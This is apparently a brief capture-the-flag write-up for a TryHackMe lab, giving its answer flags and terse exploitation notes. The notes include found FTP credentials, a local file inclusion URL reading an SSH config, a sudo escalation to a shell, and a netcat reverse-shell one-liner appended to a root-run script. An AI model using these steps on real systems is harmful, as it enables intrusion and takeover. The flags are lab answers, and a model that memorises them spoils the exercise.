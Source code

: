 # TryHackMe Team

> Saikat Karmakar | Mar 6:2021

-------------------------------------------------------------------------------

# Task 2

1. user flag
```
THM{6Y0TXHz7c2d}
```
2. root flag
```
THM{fhqbznavfonq}
```

--
-----------
***Notes***
-----------
http://team.thm:80/scripts/script.txt

ftp creds
```
user = ftpuser
pass = T3@m$h@r3
```
ssh-info path 
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config


change the user to gyles.
``
sudo -u gyles /home/gyles/admin_checks
``
by running it & give input `/bin/bash`
put linpeas & find a file ran by root 

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 1234 >/tmp/f" >> /usr/local/bin/main_backup.sh